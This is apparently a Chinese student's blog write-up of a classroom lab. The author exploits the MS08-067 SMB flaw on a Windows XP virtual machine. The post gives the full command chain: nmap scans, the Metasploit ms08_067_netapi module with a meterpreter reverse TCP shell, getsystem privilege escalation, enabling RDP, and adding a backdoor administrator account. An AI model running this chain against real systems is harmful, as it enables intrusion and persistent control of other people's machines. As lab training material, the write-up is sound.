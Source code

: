 ```yaml
---
layout:     post
title:      "渗透测试综合实训1"
subtitle:   "终于要学到点真东西了吗"
date:       2025-09-06 12:00:00
author:     "hangyangjun"
header-img: "img/training.png"
tags:
    - 笔记
    - 记录
    - 学习
    - 实训
    - 安全
    - 渗透测试
    - VMware
    - WinXP
    - Kali
    - Linux
---
```

## 目标
 今日目标是使用 Kali 对 WinXP 系统的 **SMB服务 MS08-067漏洞**进行利用，最终进入系统桌面进行截图

>虽然什么也没讲，让直接进行实操，但是我还是很有自信的

## 并非一帆风顺的探索阶段
参考资料，使用`Metasploit`工具进行漏洞利用  
过程可以概括为：  
- 困难一：Kali系统镜像下载巨慢，不过教室的机器上有，而且密码相同  
- 困难二：教室的机器太慢了，无法使用。还好带了自己的电脑，有纯净的Kali，再下载软件就是了  
- 困难三：下载失败，原因找了一会，竟然是：签名验证失败，通过网上的教程：[更新时显示签名无效和没有数字签名](https://blog.csdn.net/mighty_Jon/article/details/136188482)修好了。  
- 困难四：由于教室插座不足，电脑没电了，只能使用教室机了（此时已经加载好）
- 困难五；无法找到目标机的IP，我猜目标机通过DHCP获取地址，且开放445端口，所以尝试找教室机的IP
- 困难六：对教室机网段全部IP进行测试均无结果，考虑到可能是虚拟机网络连接模式的问题
- 困难七：测试全部三种模式均不行，转用我的电脑进行测试（充上电了）
- 困难八：虽然是冲上电了，但是用dp口冲的，所以还是很卡
- 困难九：依然无法连接，使用两种端口扫描测试，结果均无开放端口，此时有点陷入自我怀疑，445怎么会没开放呢？
- 困难十：多次重启，发现目标机的VMware控制台视图没有IP地址，关闭目标机后，扫描结果甚至没变化，可能这网始终就**没连上**？

## 解决问题就在灵光一现之间

再次仔细研究资料，发现资料中命令的IP地址很可疑，难道说目标机的**IP地址是固定的**？~~那我之前扫描到的是谁呢？~~  

更改虚拟机的**虚拟网络编辑器**（*此处不再赘述*）  
设置好网段，经过两次测试，最终确定目标机的IP地址就是 `192.168.118.201`  

此时，困扰我一天的问题终于解决了，又是这样简单的问题。  
终于可以进行**下一步**了

## 过程及命令
### 扫描
仅发现主机，不扫描端口（快速）  
`nmap -sn 192.168.118.0/24`

快速扫描并显示操作系统信息（需要root权限）  
`sudo nmap -O -F 192.168.118.0/24`

探测 SMB 服务版本，判断是否存在已知漏洞：  
`nmap -p 139,445 -sV --script smb-vuln* 192.168.118.201`

## 安装及攻击

安装（[参考](https://zhuanlan.zhihu.com/p/604440914)）：  
`apt install metasploit-framework `

启动  
`msfconsole`

搜索相关模块  
`search ms08-067`

设置ms08_067_netapi攻击模块  
`use exploit/windows/smb/ms08_067_netapi`

设置反向代理  
`set payload windows/meterpreter/reverse_tcp`

查看选项  
`options`

设置要攻击的IP  
`set RHOSTS 192.168.118.201`

设置接收端IP（本机）  
`set LHOST  192.168.118.100`

设置接收端通信端口  
`set LPORT  4444 `

查看可以攻击的靶机操作系统型号  
`show targets`

选择windows xp sp3 简体中文  
`set targets 34`

实施**攻击**，得到shell  
`exploit`

## 提权和连接

查看当前权限：  
在meterpreter >提示符下输入：  
`getuid`
普通用户是：BUILTIN\Users  
如果已取得 `NT AUTHORITY\SYSTEM` 权限，则跳过提权

使用 Metasploit 的提权模块  
```bash
# 加载提权模块
background  # 将当前会话后台挂起（返回msfconsole）
use post/windows/escalate/getsystem
set SESSION 1  # 替换为你的会话ID（这里是1）
run

# 若成功，会显示[+] Got SYSTEM via ...，此时重新进入会话：
sessions 1  # 回到meterpreter会话
getuid      # 确认已获得NT AUTHORITY\SYSTEM权限

```
### 开启目标主机的 RDP 服务
自动开启RDP服务并添加防火墙规则  
`run post/windows/manage/enable_rdp`

手动验证 RDP 端口  
`nmap -p 3389 192.168.118.201`

如果目标主机没有可用的登录用户，可创建  
进入目标系统的CMD shell  
`shell`

在 CMD shell 中输入：
```cmd
chcp 65001     # 如果中文乱码
net user haoyangjun 123 /add  # 创建用户haoyangjun，密码123
net localgroup administrators haoyangjun /add  # 将用户添加到管理员组
```

如果shell总是断开或者添加失败  
直接在 Meterpreter 中执行命令（无需进入 shell）  
- 创建用户：`execute -f "net.exe" -a "user haoyangjun 123 /add" -i -t`
- 添加到管理组：`execute -f "net.exe" -a "localgroup administrators haoyangjun /add" -i -t`
- 验证存在：`execute -f "net.exe" -a "user haoyangjun" -i -t`

输入`exit`并按回车，回到 meterpreter >提示符

使用 RDP 客户端连接目标主机  
`rdesktop 192.168.118.201`

熟悉的xp界面，输入账号密码即可**进入桌面**  
然后就是想做啥就做啥喽。